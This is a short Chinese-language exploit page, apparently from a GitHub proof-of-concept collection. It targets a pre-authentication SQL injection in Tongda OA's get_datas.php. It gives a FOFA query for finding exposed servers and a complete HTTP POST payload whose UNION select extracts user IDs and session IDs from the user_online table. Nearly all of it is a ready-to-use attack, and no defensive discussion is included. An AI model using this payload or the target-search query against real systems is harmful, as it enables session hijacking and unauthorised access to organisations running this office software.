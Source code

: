 # 通达OA get_datas.php前台sql注入

## 通达OA get_datas.php前台sql注入

##  fofa
```
app="TDXK-通达OA"
```

## POC
```
POST /general/reportshop/utils/get_datas.php HTTP/1.1
Host: {{HostName}}
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Length: 2

USER_ID=OfficeTask&PASSWORD=&col=1,1&tab=5 where 1={`\='` 1} union (select uid,sid from user_online where 1\={`=` 1})-- '1**
```
![image](https://github.com/wy876/POC/assets/139549762/55ba1ee3-215b-4fd2-8c0c-0694a20f6bfd)

![image](https://github.com/wy876/POC/assets/139549762/3d0399a3-9fe9-46d9-b725-12acb84d422c)


## 漏洞来源
```
https://forum.butian.net/share/278
```

